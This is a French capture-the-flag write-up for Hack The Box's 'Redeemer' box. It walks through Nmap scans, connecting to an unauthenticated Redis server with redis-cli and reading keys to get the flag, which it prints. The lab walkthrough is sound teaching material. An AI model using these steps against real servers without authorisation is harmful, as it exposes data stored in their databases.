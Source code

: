 ```yaml
---
title: Starting Point Redeemer - Hack the Box 
date: 2025-03-05
tags: [HackTheBox, Redis, DataBases, VeryEasy]
categories: writeups
keywords: 'Redis Hack the box'
description: Box Starting point  - Hack the box 
cover: images/writeups/REDEEMER/image.png
top_img: /images/cyberpunk-red.jpg
toc: true
toc_number: true
---
```

## Introduction

Le challenge **"Redeemer"** sur Hack The Box nous amène à interagir avec un service Redis sur un serveur à distance. Redis est un **système de gestion de base de données en mémoire**, utilisé principalement pour la mise en cache de données et la gestion de données temporaires. L'objectif de ce challenge est d'exploiter un serveur Redis pour obtenir un flag.

## Étape 1: Identifier le Port Ouvert

La première étape consiste à déterminer quel port est ouvert sur la machine cible. Nous avons utilisé **Nmap** pour scanner les ports :

```bash
┌──(jolan㉿jolan)-[~]
└─$ nmap -p- -sS -min-rate=10000 -T5 10.129.136.187
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 11:21 CET
Warning: 10.129.136.187 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.136.187
Host is up (0.026s latency).
Not shown: 63528 closed tcp ports (reset), 2006 filtered tcp ports (no-response)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds

```

Le scan a révélé que le port **6379** est ouvert, et le service qui l'occupe est **Redis**.

### Étape 2: Identifier le Service Redis

Une fois que le port est identifié, nous avons effectué un autre scan Nmap pour obtenir plus d'informations sur le service qui s'exécute sur ce port. Le résultat indique que Redis est bien en fonctionnement :

```bash
┌──(jolan㉿jolan)-[~]
└─$ nmap -p 6379 -sV 10.129.136.187
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 11:24 CET
Nmap scan report for 10.129.136.187
Host is up (0.033s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds

```

Il est confirmé que **Redis version 5.0.7** est en cours d'exécution sur le port 6379.

### Étape 3: Comprendre Redis

Redis est un **système de gestion de base de données en mémoire** utilisé principalement pour le **stockage de données temporaires** et la **mise en cache**. Il permet de stocker des paires clé-valeur et peut être utilisé pour partager des données entre plusieurs serveurs.

### Étape 4: Se Connecter à Redis

Pour interagir avec Redis, l'outil **redis-cli** est utilisé. Il permet d'exécuter des commandes Redis depuis la ligne de commande. La commande suivante permet de se connecter à la machine cible via **redis-cli** :

```bash
redis-cli -h 10.129.136.187

```

Une fois connecté, vous obtenez un prompt où vous pouvez exécuter des commandes Redis.

### Étape 5: Obtenir des Informations sur le Serveur Redis

La commande suivante fournit des informations et des statistiques sur le serveur Redis :

```bash
10.129.136.187:6379> info

```

Le résultat montre diverses informations sur le serveur, y compris la version de Redis, l'OS utilisé, et le nombre de clés dans la base de données.

### Étape 6: Explorer les Clés de Redis

Ensuite, nous avons utilisé la commande `keys *` pour lister toutes les clés stockées dans la base de données Redis :

```bash
10.129.136.187:6379> keys *
1) "temp"
2) "numb"
3) "stor"
4) "flag"

```

Quatre clés sont présentes : **temp**, **numb**, **stor**, et **flag**.

### Étape 7: Extraire les Valeurs des Clés

Nous avons ensuite utilisé la commande `get` pour récupérer les valeurs associées à ces clés :

```bash
10.129.136.187:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"

10.129.136.187:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"

10.129.136.187:6379> get stor
"e80d635f95686148284526e1980740f8"

10.129.136.187:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"

```

La valeur de la clé **flag** est le flag que nous recherchions :

```
03e1d2b376c37ab3f5319922053953eb

```

# Conclusion

Dans ce challenge, nous avons utilisé **Nmap** pour découvrir le port ouvert, identifié le service **Redis** qui y était exécuté, et utilisé **redis-cli** pour interagir avec le serveur Redis. En explorant les clés stockées dans Redis, nous avons récupéré le **flag** qui était caché dans la clé **flag**.

Ce challenge met en lumière l'importance de sécuriser les services Redis, car un accès non autorisé à Redis peut permettre à un attaquant d'exploiter des informations sensibles stockées dans la base de données.